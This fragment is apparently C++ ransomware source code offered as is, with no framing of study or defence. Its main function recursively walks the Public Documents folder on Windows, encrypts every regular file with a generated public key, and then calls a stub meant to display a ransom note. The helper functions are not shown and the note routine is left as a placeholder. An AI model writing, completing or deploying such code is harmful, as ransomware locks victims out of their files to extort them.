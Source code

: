 ```cpp



void displayRansomNote(const std::string& publicKey)

{

    // Insert code to display ransom note with the generated public key

}



int main()

{

    std::string targetDirectory = "C:\\Users\\Public\\Documents\\";

    std::string publicKey = generatePublicKey();



    std::filesystem::recursive_directory_iterator it(targetDirectory), end;

    while (it != end)

    {

        if (std::filesystem::is_regular_file(*it))

        {

            encryptFile(it->path().string(), publicKey);

        }

        ++it;

    }



    displayRansomNote(publicKey);



    return 0;

}

```
